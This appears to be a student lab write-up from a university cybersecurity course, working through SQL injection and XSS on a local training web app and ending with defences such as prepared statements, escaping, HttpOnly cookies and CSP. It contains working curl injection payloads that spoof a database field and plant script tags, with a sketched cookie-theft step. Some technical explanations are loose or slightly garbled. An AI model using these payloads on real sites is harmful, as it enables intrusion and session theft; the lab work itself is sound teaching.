 ```yaml
---
title: Cybersecurity2 - Introduction to secure systems - University of Lille
author:
  name: Pierre Lague & François Muller (@franzele21)
  link: 
date: 2024-02-10 09:45:00 +0800
categories: [Studies, U-Lille]
tags: [Python, Security, C]
math: true
mermaid: true
image:
  src: '/assets/posts/security/header.jpg'
  width: 800
  height: 600
---
```


# Cybersecurity Class🛡️

## Overview
This class is proposed as part of the first year of masters curriculum at the University of Lille and it overlooked by Pr Gilles GRIMAUD. It delves into four primary themes: permissions and secure file systems, SQL injections, XSS attacks and prevention methods, and cryptography with RSA and elliptic curves.

## Themes Explored

### SQL Injections
Exploring SQL injection vulnerabilities and implementing strategies to prevent malicious SQL injections, ensuring robustness of database systems.

### XSS Attacks and Prevention
Investigating cross-site scripting (XSS) attacks and implementing preventive measures to safeguard web applications against such vulnerabilities.
---
## Preface

After testing the application and entering some strings, we can observe them in the `strings` table:

```sql
mysql> SELECT * FROM strings;
+----+---------+-----------+
| id | txt     | who       |
+----+---------+-----------+
|  1 | hello   | 127.0.0.1 |
|  2 | bonjour | 127.0.0.1 |
|  3 | 33XD    | 127.0.0.1 |
+----+---------+-----------+
3 rows in set (0.00 sec)

```

## Question 1

Examining the source code of `server.py`, we have the following observations:
- the SQL query sent by the server after receiving the data is as follows: ```sql query = "INSERT INTO strings (txt, who) VALUES('" + post["string"] + "','" + cherrypy.request.remote.ip + "')" ```.

>* **What is this mechanism?**

We notice that in the source code of the page there is a `validate()` function. Within this function, there is a variable `regex = /^[a-zA-Z0-9]+$/;` acting as a filter on the string we enter in the application.
The `validate()` function checks that the entered string consists only of letters and numbers (so no spaces or other characters). If not, the function returns false.

>* **Is it effective? Why?**

The mechanism seems effective because it is not possible to insert spaces or `'` to inject a SQL expression.

## Question 2

>* **Your curl command**

```bash
curl 'http://localhost:8080/' -X POST -H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:122.0) Gecko/20100101 Firefox/122.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate, br' -H 'Content-Type: application/x-www-form-urlencoded' -H 'Origin: http://localhost:8080' -H 'Connection: keep-alive' -H 'Referer: http://localhost:8080/' -H 'Cookie: ExampleCookie="Cookie Value"' -H 'Upgrade-Insecure-Requests: 1' -H 'Sec-Fetch-Dest: document' -H 'Sec-Fetch-Mode: navigate' -H 'Sec-Fetch-Site: same-origin' -H 'Sec-Fetch-User: ?1' --data-raw 'string=SELECT * from strings;&submit=OK'
```

When looking at the database after execution, we get the following result:

```sql
mysql> select * from strings;
+----+-----------------------+-----------+
| id | txt                   | who       |
+----+-----------------------+-----------+
|  1 | hello                 | 127.0.0.1 |
|  2 | bonjour               | 127.0.0.1 |
|  3 | 33XD                  | 127.0.0.1 |
|  4 | hello                 | 127.0.0.1 |
|  5 | bonjour               | 127.0.0.1 |
|  6 | 33XD                  | 127.0.0.1 |
|  7 | SELECT * from strings | 127.0.0.1 |
+----+-----------------------+-----------+
7 rows in set (0.00 sec)

```
We were able to insert the string `SELECT * from strings`, which contains spaces and special characters. This shows that the `cURL` method allows us to bypass the security of the `validate` function.

## Question 3

>* **Your curl command that will allow you to add an entry by putting arbitrary content in the 'who' field**

```bash
curl -X POST http://localhost:8080/ -d "string=H4CK3RM4N','IT WAS FRANCOIS WHO DID THIS')#"
```
We can observe the following table:

```sql
mysql> select * from strings;
+----+-----------+--------------------------+
| id | txt       | who                      |
+----+-----------+--------------------------+
| 91 | H4CK3RM4N | IT WAS FRANCOIS WHO DID THIS |
+----+-----------+--------------------------+
1 row in set (0.00 sec)
```

* Explain how to get information on another table

Assuming that our `mysql` database has a `secret` table containing 1 entry. To access it, we would need to execute a query in the SQL injection in such a way that the injection ends and executes directly the other.

## Question 4

> see `server-correct.py`

To fix the security flaw, we can use `MySQL Parameterized Query using Prepared Statement`. This method allows us to execute queries with two prepared and separated fields, forcing any additional string (injection) to be considered as an integer value. Therefore, using the `cURL` command that worked previously, we are no longer able to modify the `who` field in the injection. We get the following database:

```sql
mysql> select * from strings;
+-----+-----------------------------------------+--------------------------+
| id  | txt                                     | who                      |
+-----+-----------------------------------------+--------------------------+
|  91 | H4CK3RM4N                               | IT WAS FRANCOIS WHO DID THIS |
|  92 | yoLeSang                                | 127.0.0.1                |
|  93 | yoLeSang                                | 127.0.0.1                |
|  94 | test                                    | 127.0.0.1                |
|  95 | test                                    | 127.0.0.1                |
|  96 | test                                    | IT'S THE HANDSOME GUY    |
|  97 | test                                    | 127.0.0.1                |
|  98 | test                                    | IT'S THE HANDSOME GUY    |
|  99 | test                                    | 127.0.0.1                |
| 100 | H4CK3RM4N                               | IT WAS FRANCOIS WHO DID THIS |
| 101 | H4CK3RM4N                               | IT WAS FRANCOIS WHO DID THIS |
| 102 | H4CK3RM4N                               | IT WAS FRANCOIS WHO DID THIS |
| 103 | H4CK3RM4N                               | IT WAS FRANCOIS WHO DID THIS |
| 104 | H4CK3RM4N','IT WAS FRANCOIS WHO DID THIS')# | 127.0.0.1                |
+-----+-----------------------------------------+--------------------------+
14 rows in set (0.00 sec)
```
We see that on line 104, our hardcoded injection is inserted into `txt` but the `who` contains our IP address.

## Question 5

>* Vulnerability study on the `server.py` file

We observe lines 

37 to 42 an insertion of data coming from the python code. We could try to empty the table, then insert an entry interpreted as `html` in which we would insert a `<script>` tag. **that's it**.

With the implementation of `Parametrized Queries`, then the `cURL` command below allows to trigger an alert `Hello!` to the user (or a prompt):

```bash
pierre.lague.etu@a04p16:~$ a='"Hello!"'
pierre.lague.etu@a04p16:~$ curl -X POST http://localhost:8080/ -d "string=<script>alert($a)</script>','')#"
```

This is possible because the string is interpreted as an `html` tag in the enumeration of the rows of the table.

>* curl command to read cookies

Similarly, we can extract cookies by creating a listener with `netcat` on a separate terminal. By modifying the `document.location` we can redirect the user to another page (ours `ip:port`):

```bash
curl -X POST http://localhost:8080/ -d "string=<script><script>alert(document.cookie)</script></script>','')#"
```

## Question 6

XSS belongs to the family of "Code Injection" vulnerabilities. Like all vulnerabilities in this family, they are due to a lack of validation of user inputs.

Every user input must be systematically checked and, if necessary, escaped before being inserted into an HTML page. This applies to parameters from forms but also to parameters contained in the potential URLs of the web application. Many libraries can be used to escape user inputs depending on the technology used by the web application.

In addition to this, it may be interesting to implement an application firewall or WAF. The role of such a firewall is to detect attempts to exploit XSS on the web application and block them before the code injection is executed on the victim's browser.

Furthermore, to prevent the exploitation of XSS from stealing users' cookies, it is recommended to set the "HTTPOnly" flag on session cookies. This will prevent access to cookies via JavaScript.

Finally, it is possible to configure the web server of the application to return certain headers for protection against XSS:

- X-XSS-Protection: enables the XSS filter of some recent browsers.

- Content Security Policy or CSP: the CSP defines the sources (images, CSS or JavaScript files) of a web application allowed to be loaded on users' browsers. A well-configured CSP will prevent a potential attacker from loading external JavaScript files through users' browsers.

---

🔒 Secure your systems, shield your data 🔒